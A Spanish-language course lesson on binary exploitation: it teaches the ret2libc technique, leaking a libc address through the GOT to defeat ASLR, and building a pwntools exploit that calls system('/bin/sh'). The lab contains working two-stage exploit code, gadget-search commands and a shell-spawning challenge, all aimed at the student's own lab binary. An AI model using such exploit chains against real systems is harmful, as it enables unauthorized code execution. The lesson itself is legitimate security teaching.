

# Clase 123 — Bypass de protecciones: ret2libc

> Parte: **5 — Explotación de sistemas y binarios** · Fuente: *Anley et al., The Shellcoder's Handbook* · docs pwntools
> ⏱️ Duración estimada: **130 min** · Nivel: **Avanzado**

---

## 🎯 Objetivo

Evadir **NX/DEP** sin inyectar shellcode: en lugar de ejecutar datos, reutilizas código ya existente
en libc. Construirás un exploit **ret2libc** que salta a `system("/bin/sh")` colocando el argumento
en `RDI` mediante un gadget `pop rdi`. También verás cómo un **info leak** de la GOT derrota ASLR
para conocer la base de libc. Es el primer bypass real de mitigaciones.

> ⚠️ **Ética:** exclusivamente en tus binarios de laboratorio o retos autorizados.

## 📚 Resultados de aprendizaje

Al finalizar, el alumno podrá:

1. **Explicar** por qué ret2libc evade NX (reutiliza código ejecutable existente).
2. **Filtrar** la dirección de una función de libc vía GOT y calcular la **base**.
3. **Localizar** gadgets `pop rdi; ret` y la cadena `"/bin/sh"` en libc.
4. **Construir** la cadena de retorno que invoca `system("/bin/sh")`.
5. **Automatizar** todo con pwntools y su módulo `ELF`/`libc`.

## 🗺️ Temas

| # | Tema | Por qué importa |
| --- | --- | --- |
| 1 | Reutilización de código vs shellcode | La clave para saltar NX |
| 2 | GOT/PLT | De dónde se filtra libc |
| 3 | Info leak | Derrota ASLR revelando una base |
| 4 | Cálculo de base de libc | `leak - offset_símbolo` |
| 5 | Gadget pop rdi; ret | Colocar el argumento en x64 |
| 6 | system("/bin/sh") | Objetivo de la cadena |
| 7 | Alineación de stack | Evitar el crash de movaps |
| 8 | pwntools ELF/ROP | Automatizar direcciones y gadgets |

## 🧠 Explicación en profundidad

### Si no puedes inyectar código, usa el que ya está cargado

**ret2libc** es la primera técnica de reutilización de código y la respuesta directa a **DEP/NX**
(clase 122): si la pila no es ejecutable, el atacante deja de inyectar shellcode y en su lugar
**salta a código que ya existe y ya es ejecutable** —las funciones de la biblioteca C (**libc**),
que está cargada en todo proceso—. En lugar de escribir un shellcode que llame a `execve`, se
redirige la ejecución a la función **`system`** de libc con el argumento **`"/bin/sh"`**, cadena
que además suele existir dentro de la propia libc. El resultado es el mismo —una shell— pero sin
ejecutar un solo byte de código propio, lo que hace irrelevante a NX.



### El obstáculo de ASLR y el papel de la GOT/PLT

ret2libc contra un sistema moderno choca con **ASLR**: la base de libc cambia en cada ejecución, así
que la dirección de `system` no se conoce de antemano. La solución es el **info leak**, y el
mecanismo canónico usa la **GOT y la PLT**. La **PLT** (*Procedure Linkage Table*) y la **GOT**
(*Global Offset Table*) son la maquinaria con la que un binario llama a funciones de librerías cuya
dirección solo se conoce en tiempo de ejecución: la GOT contiene los **punteros resueltos** a esas
funciones. Si el atacante logra que el programa **imprima el contenido de una entrada de la GOT**
(por ejemplo, llamando a `puts` con la dirección GOT de `puts` como argumento), obtiene una
**dirección real de libc** en esta ejecución. Con eso calcula la **base de libc** (dirección
filtrada menos el offset conocido de esa función en esa versión de libc), y a partir de la base
deriva la dirección de `system` y de `"/bin/sh"` sumando sus offsets. Este patrón —leak → base →
derivar todo— es la columna vertebral de la explotación moderna con ASLR.

### Colocar el argumento: el gadget pop rdi

Para llamar a `system("/bin/sh")` en x64 hace falta que el puntero a `"/bin/sh"` esté en **`RDI`**
(la convención System V de la [Clase 117](117-el-stack-los-registros-y-las-convenciones-de-llamada/README.md)). Pero el atacante solo controla la pila, no los
registros directamente. La solución es un **gadget** —una pequeña secuencia de instrucciones que ya
existe en el binario y termina en `ret`—, en concreto **`pop rdi; ret`**: al saltar a él, `pop rdi`
toma el siguiente valor de la pila (que el atacante ha colocado: la dirección de `"/bin/sh"`) y lo
mete en `RDI`, y `ret` continúa la cadena hacia `system`. Este uso de un gadget para preparar un
registro es exactamente la idea que la [Clase 124](124-return-oriented-programming-rop/README.md) generaliza en ROP; ret2libc es, en el
fondo, una cadena ROP muy corta con un destino conocido.

### La alineación otra vez, y las herramientas

Reaparece el fantasma de la [Clase 120](120-buffer-overflow-en-stack-explotacion-practica/README.md): `system` ejecuta instrucciones SSE que exigen la
**pila alineada a 16 bytes**, así que un ret2libc que "debería" funcionar puede crashear dentro de
`system` por desalineamiento, y se arregla con un gadget `ret` extra de relleno. Todo esto se
construye con **pwntools**, que automatiza la parte tediosa: el objeto **`ELF`** parsea el binario y
la libc dando las direcciones de funciones y de la GOT con `elf.symbols` y `elf.got`, y el módulo
**`ROP`** localiza gadgets como `pop rdi; ret` automáticamente. La lección de la clase es el salto
conceptual que define la explotación moderna: **no se inyecta código, se reutiliza el que hay**, y
la dificultad se traslada de "escribir shellcode" a "conseguir un leak y encadenar direcciones
correctas".

## 📖 Definiciones y características

- **ret2libc:** técnica que retorna a funciones de la librería C (p. ej. `system`) en vez de a
  shellcode. *Clave:* evade NX porque libc es ejecutable.
- **GOT (Global Offset Table):** tabla con direcciones resueltas de funciones de librería. *Clave:*
  leer una entrada revela una dirección real de libc → base.
- **Info leak:** primitiva que expone una dirección de memoria. *Clave:* imprescindible contra
  ASLR/PIE.
- **Base de libc:** `dirección_filtrada - offset_del_símbolo_en_libc`. *Clave:* con la base calculas
  cualquier símbolo (`system`, `/bin/sh`).
- **Gadget:** secuencia corta acabada en `ret` (p. ej. `pop rdi; ret`). *Clave:* en x64 se necesita
  para cargar `RDI` con el argumento.
- **one_gadget:** dirección en libc que ejecuta `execve("/bin/sh")` bajo ciertas condiciones. *Clave:*
  atajo cuando las restricciones se cumplen.

## 📔 Glosario

| Término | Definición concisa |
|---------|--------------------|
| ret2libc | Saltar a funciones de libc en vez de inyectar shellcode |
| libc | Biblioteca C, cargada en todo proceso; llena de código útil |
| system("/bin/sh") | Objetivo típico: función de libc que lanza una shell |
| Info leak | Filtrar una dirección de libc en tiempo de ejecución |
| GOT | Tabla de punteros resueltos a funciones de librería |
| PLT | Maquinaria que resuelve y llama a funciones externas |
| Base de libc | Dirección de carga; leak menos offset conocido |
| Offset en libc | Distancia fija de una función respecto a la base |
| Gadget | Secuencia corta de instrucciones que termina en `ret` |
| pop rdi; ret | Gadget que carga RDI con el argumento y continúa |
| Alineación a 16 bytes | Requisito de SSE; su falta crashea system |
| elf.symbols / elf.got | pwntools: direcciones de funciones y GOT |
| ROP() | Módulo de pwntools que localiza gadgets |
| Leak → base → derivar | Patrón central de la explotación con ASLR |

## 🧰 Herramientas y preparación

```bash
pip install pwntools
sudo apt install -y gdb
# ROPgadget o el buscador de pwntools
pip install ROPgadget
# one_gadget (opcional): gem install one_gadget
```

Usa un binario con NX activo pero **sin PIE ni canary** para el primer ret2libc, y ten a mano la libc
exacta del sistema (`ldd ./bin`).

## 🧪 Laboratorio guiado

> Entorno propio.

1. Audita el binario objetivo: `checksec ./ret2libc`. Debe mostrar `NX enabled`, `No PIE`, `No canary`.

2. Localiza gadgets y la cadena `/bin/sh`:

   ```bash
   ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 | grep ": pop rdi ; ret"
   strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep "/bin/sh"
   ```

3. Fase 1 — **fuga**: usa un overflow para llamar a `puts(GOT['puts'])` y luego volver a `main`:

   ```python
   from pwn import *
   elf = context.binary = ELF("./ret2libc")
   libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
   p = process("./ret2libc")
   rop = ROP(elf)
   pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
   payload  = b"A"*72
   payload += p64(pop_rdi) + p64(elf.got["puts"])
   payload += p64(elf.plt["puts"]) + p64(elf.symbols["main"])
   p.sendline(payload)
   leak = u64(p.recvline().strip().ljust(8, b"\x00"))
   libc.address = leak - libc.symbols["puts"]      # base de libc
   log.success(f"libc base = {hex(libc.address)}")
   ```

4. Fase 2 — **system("/bin/sh")** con la base ya conocida:

   ```python
   ret = rop.find_gadget(["ret"])[0]              # alineación
   payload  = b"A"*72
   payload += p64(pop_rdi) + p64(next(libc.search(b"/bin/sh")))
   payload += p64(ret) + p64(libc.symbols["system"])
   p.sendline(payload)
   p.interactive()      # deberías obtener una shell
   ```

5. Si no hay shell, verifica alineación (añade/quita el gadget `ret`) y que la libc sea la correcta.

6. Explora `one_gadget /lib/.../libc.so.6` como alternativa de una sola dirección.

## ✍️ Ejercicios

1. Repite el ataque calculando la base a partir de otra función filtrada (`printf`).
2. Sustituye la cadena de `system` por un `one_gadget` válido.
3. Adapta el exploit a 32 bits (argumentos por stack, sin `pop rdi`).
4. Explica por qué necesitas volver a `main` tras la fuga.
5. Automatiza la descarga de la libc correcta con `libc-database`.
6. Documenta qué falla si usas una libc de versión distinta.

## 📝 Reto verificable

Entrega un exploit ret2libc que abra una shell interactiva contra tu binario NX (sin PIE/canary),
calculando la base de libc en tiempo de ejecución.

**Criterio de aceptación:** `p.interactive()` te da una shell donde `id` responde, y el exploit
funciona con ASLR **activado** gracias a la fuga.

## ⚠️ Errores comunes

| Síntoma / mensaje | Causa y cómo arreglar |
| --- | --- |
| Shell no aparece, crash en system | Stack desalineado; añade gadget `ret` |
| Base de libc absurda | Offset de símbolo de otra versión de libc; usa la correcta |
| Fuga da valor corto | Faltó `ljust(8,\x00)` al desempaquetar |
| `pop rdi` no encontrado | Búscalo en libc, no solo en el binario |
| Funciona sin ASLR pero no con él | La fuga falló; revisa fase 1 |

## ❓ Preguntas frecuentes

**❓ ¿Por qué ret2libc y no shellcode?** Porque NX impide ejecutar el stack; libc ya es ejecutable.

**❓ ¿Necesito la libc exacta?** Sí: los offsets de `system`/`/bin/sh` dependen de la versión.
Identifícala con `libc-database`.

**❓ ¿one_gadget siempre funciona?** No: exige que ciertos registros valgan algo concreto; verifica
sus constraints.

## 🔗 Referencias

- Anley et al. *The Shellcoder's Handbook, 2e*. Wiley.
- pwntools ROP — <https://docs.pwntools.com/en/stable/rop/rop.html>
- libc-database — <https://github.com/niklasb/libc-database>
- one_gadget — <https://github.com/david942j/one_gadget>

## 📥 Material descargable

- 📄 [Guía en PDF](./clase-123-guia.pdf) — versión imprimible de esta clase.
- 🎞️ [Presentación (PPTX)](./clase-123-presentacion.pptx) — deck para proyectar en clase.

## ⬅️ Clase anterior

[Clase 122 — Protecciones modernas: ASLR, DEP/NX, stack canaries y PIE](../122-protecciones-modernas-aslr-dep-nx-stack-canaries-y-pie/README.md)

## ➡️ Siguiente clase

[Clase 124 — Return-Oriented Programming (ROP)](../124-return-oriented-programming-rop/README.md)
